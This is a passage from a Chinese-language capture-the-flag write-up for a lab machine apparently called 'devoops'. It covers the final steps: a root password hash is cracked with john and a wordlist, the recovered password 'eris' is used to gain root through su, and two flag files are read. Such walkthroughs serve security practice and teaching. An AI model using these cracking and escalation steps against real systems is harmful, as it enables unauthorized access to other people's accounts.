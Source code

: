 将获取到的root用户哈希保存到本地文件，并使用 `john` 和字典进行破解。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo 'root:$6$FGoCakO3/TPFyfOf$6eojvYb2zPpVHYs2eYkMKETlkkilK/6/pfug1.6soWhv.V5Z7TYNDj9hwMpTK8FlleMOnjdLv6m/e94qzE7XV.' > hash
                          
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=xato-net-10-million-passwords.txt hash
...
eris             (root)     
...
Session completed. 
```

成功破解出root密码为 `eris`。

# **六、获取Flag**

使用破解出的密码切换到 `root` 用户，提权完成。

```shell
devoops:~$ su -
Password: 
devoops:~#
```

最后，在 `root` 和 `hana` 的家目录中找到并读取flag文件。

```shell
devoops:~# cat /root/R007.7x7oOoOoOoOoOoO /home/hana/user.flag 
flag{a834296543f4c2990909ce1c56becfba}
flag{03d0e150ae9fc686a827b41e1969d497}
```